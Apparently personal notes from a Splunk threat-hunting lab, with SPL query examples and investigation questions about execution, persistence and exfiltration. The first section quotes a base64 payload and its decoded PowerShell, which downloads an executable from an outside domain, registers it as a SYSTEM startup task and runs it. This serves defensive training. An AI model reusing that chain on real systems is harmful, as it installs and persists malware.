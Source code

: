 
Platform for searching and monitoring



Index - The set of data you're trying to search

Source Type - The source within the data (Eg. Sourcetype=Zeek)

Time Range (important) - The date ranges of the time the data was ingested. THIS IS NOT TO BE CONFUSED AS THE ARTEFACT TIME (x2)

Index = Eventlogs sourcetype=WinEventLog:Security

Index = host sourcetype=velociraptor


Filtering and fields

Example:

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 user="*jane*"
```

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 user="*jane*" AND user="*smith*"
```

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 OR EventCode=4624 AND user="*jane*" OR user="*smith*"
```

Format the output

- stats
- table
- top/rare
- dedup
- eval
- rename

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 user="*jane*" | table user | dedup user
```

[vaquarkhan/splunk-cheat-sheet](https://github.com/vaquarkhan/splunk-cheat-sheet)






# 🔐 VM Access Details

**VM Password:** `Password1`

If prompted with permission issues, click **"Take Ownership"** and then confirm with **"I Copied It"**.

If the VM requires a reboot, proceed with rebooting.

If the screen resolution appears incorrect or small, click the **"Resize"** button in the VMware toolbar (furthest right option at the top).



### **1 Entry & Initial Execution**

 One process launches another process that is rarely spawned by web browsers.
    
    - Which process pair stands out as unusual and why?
    
```python
index="velociraptor" source="Velociraptor_ETW_ProcessCreation_Flat.json"
|  table result.CommandLine result.Image result.ParentProcessId
```
OR
```python
index="velociraptor" source="Velociraptor_ETW_ProcessCreation_Flat.json"
|  stats count by result.CommandLine result.Image result.ParentProcessId
```
![[Pasted image 20250828134534.png]]

powershell.exe 1004
schetasks.exe 1005

    
    - What user account was responsible for this?

![[Pasted image 20250828134626.png]]



Base 64 Malicious

```
SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAiaHR0cHM6Ly9jZG4tZmlsZXMtYXJjaGl2ZS5jb20vYmluL1VwZGF0ZXJUYXNrLmV4ZSIgLU91dEZpbGUgIkM6XFVzZXJzXHN2Yy11cGRhdGVyXEFwcERhdGFcUm9hbWluZ1xVcGRhdGVyVGFzay5leGUiDQpzY2h0YXNrcyAvY3JlYXRlIC90biAiVXBkYXRlclRhc2siIC90ciAiQzpcVXNlcnNcc3ZjLXVwZGF0ZXJcQXBwRGF0YVxSb2FtaW5nXFVwZGF0ZXJUYXNrLmV4ZSIgL3NjIG9uc3RhcnQgL3J1IFNZU1RFTQ0KU3RhcnQtUHJvY2VzcyAiQzpcVXNlcnNcc3ZjLXVwZGF0ZXJcQXBwRGF0YVxSb2FtaW5nXFVwZGF0ZXJUYXNrLmV4ZSINCg
```

```
Invoke-WebRequest -Uri "https://cdn-files-archive.com/bin/UpdaterTask.exe" -OutFile "C:\Users\svc-updater\AppData\Roaming\UpdaterTask.exe"
schtasks /create /tn "UpdaterTask" /tr "C:\Users\svc-updater\AppData\Roaming\UpdaterTask.exe" /sc onstart /ru SYSTEM
Start-Process "C:\Users\svc-updater\AppData\Roaming\UpdaterTask.exe"
```




### **2 Network Activity**

Which process establishes an outbound connection to an unfamiliar domain?
    
    - How can you determine whether this domain is suspicious?
        

 Which network connection state would indicate that this communication is actively occurring?
    






### **3 Persistence Mechanisms**

Do you see any new or modified tasks or services configured on the host?
    
    - Which one(s) stand out as suspicious and why?
        
Where on the system is the binary or executable being used for persistence located?
    
    - Is this a typical location for legitimate software?
        

---

### **4️ Data Staging & Exfiltration**

Are there any new archive files on the system that may contain collected data?
    
    - Which one appears suspicious and why?
        
 Do you notice any evidence of these files being prepared for transmission?
    
    - Which user seems involved?
        


---

### **5️ Obfuscation and Detection**

Do you find any command lines or scripts that seem to be attempting to hide their true intent?
  
Which artifacts or fields could help you confirm if the file transfer was successful?
    
 Based on the timeline of events, which action would you have been able to detect first if you had the right detection in place? ( no wrong answers ) 






---

### Using Fields - Lab Work


